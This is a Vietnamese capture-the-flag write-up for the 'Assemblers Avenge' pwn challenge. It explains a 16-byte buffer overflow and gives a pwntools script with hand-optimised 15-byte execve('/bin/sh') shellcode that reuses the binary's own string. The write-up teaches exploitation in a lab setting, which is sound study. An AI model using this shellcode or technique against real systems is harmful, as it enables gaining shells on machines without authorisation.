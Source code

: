 ------

3 . Assemblers Avenge (shellcode tiết kiệm)
-------

1 bài mà mình học được thêm cách viết shellcode tiết kiệm byte (15 byte cho shellcode này) , và shellcode ngắn nhất hình như là 17 bytes shellcode ngắn nhất hình như là 17 bytes

oke vào bài thôi

- checksec 

không giáp :))))
![image](https://hackmd.io/_uploads/BJwJ5mKbye.png)



- source khá ngắn , ta sẽ đi vào từng hàm thử
![image](https://hackmd.io/_uploads/SknqK7Ybkx.png)

- write: 

chỉ đơn giản là dùng syswrite in ra đoạn message đó
![image](https://hackmd.io/_uploads/BJaec7Y-yg.png)



- read: 

ta thấy ngay BOF ở đây luôn , hmmm nhìn vào thì ta có thể chỉ dư 8 byte để get_shell , ở đây kh có hàm win , với 8 byte ít ỏi này và NX tắt thì nghĩ ngay đến thực thi shellcode thôi
![image](https://hackmd.io/_uploads/SyHX5Qtb1g.png)


exit : 

in ra cái gì đó và chim cút
![image](https://hackmd.io/_uploads/ByIYqQYbkl.png)


- tuy bài này nói là shelcode tuy nhiên ta chỉ có 16 byte để ghi shellcode (buf 8 byte với rbp 8 byte) , tìm trên mạng thì shellcode bé nhất là 17 (hoặc do mình tìm sót) , ngẫm lại thì nó cho ta sẵn chuỗi /bin/sh   -> ta có thể tiết kiệm byte bằng cách cho cái địa chỉ đó vào RDI luôn 

- ở đây mình học dc thêm là khi mov rax,0x3b thì tốn tận 7 byte =))) , còn mov al,0x3b thì tốn 2 byte thôi , và khi mov cái địa chỉ binsh thì địa chỉ đó cũng chỉ có 4 byte nên ta có thể dùng edi thay rdi -> tiết kiệm được thêm

script : 

```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./assemblers_avenge',checksec=False)
context.arch = 'amd64'
p = process()
gdb.attach(p,gdbscript='''
           b*0x000000000040108e
           ''')
#1 cach khac de lay chuoi : binsh = next(exe.search(b'/bin/sh\x00'))
# mov edi, {binsh}

shellcode = asm('''
                xor rsi,rsi
                xor rdx,rdx
                mov al,0x3b
                mov edi,0x402065
                syscall
                ''')
```